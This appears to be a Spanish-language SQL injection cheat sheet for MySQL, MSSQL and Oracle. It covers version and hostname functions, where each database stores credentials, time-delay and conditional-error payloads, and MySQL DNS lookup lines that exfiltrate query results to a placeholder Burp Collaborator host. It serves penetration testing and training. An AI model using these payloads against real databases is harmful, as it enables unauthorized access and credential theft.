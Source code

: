 # Inyecciones por DDBB

## MySQL

### DDBB por defecto

```
mysql 
information_schema
```

### Version de DDBB

```
VERSION()
@@VERSION
@@GLOBAL.VERSION
```

### Credenciales por defecto

```
en tabla mysql.user, en las columnas user y password
```

### DDBB actual

```
database()
schema()
```

### Server Hostname

```
@@HOSTNAME
```

### String Concatenation
```
'hercu' 'les'
CONCAT('hercu','les')
```

### Substring
```
SUBSTRING('hercules', 4, 2)
```

### Comentarios
```
#comentario
-- comentario
/*comentario*/
```

### Listar tablas y columnas de una DDBB
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.tables WHERE table_name = 'tabla1'
```

### Errores condicionales
```
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```

### Uniendo querys
```
QUERY-1-HERE; QUERY-2-HERE 
```

### Time delay
```
SELECT sleep(10) 
```

### Time delay condicionales
```
SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```

### DNS Lookup
```
LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'

# DNS Lookup con exfiltracion de datos
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a' 
```

## MSSQL

### DDBB por defecto

```
Model
Msdb
Tempdb
Northwind
Information_schema
```

### Version de DDBB

```
@@VERSION
```

### Credenciales por defecto

```
En 2 tablas:
master..syslogins
master..sysprocesses
en las columas name y loginame
```

### DDBB actual

```
db_name()
```

### Server Hostname

```
@@SERVERNAME
SERVERPROPERTY()
```

## Oracle

### DDBB por defecto

```
System
Sysaux
```

### Version de DDBB

```
VERSION
```

### Credenciales por defecto

```
En las tablas:
all_users
sys.user$
En las columnas username, name y password
```

### DDBB actual

```
global_name
name
instance_name
SYS.DATABASE_NAME
```

### Server Hostname

```
host_name
UTL_INADDR.get_host_name
```
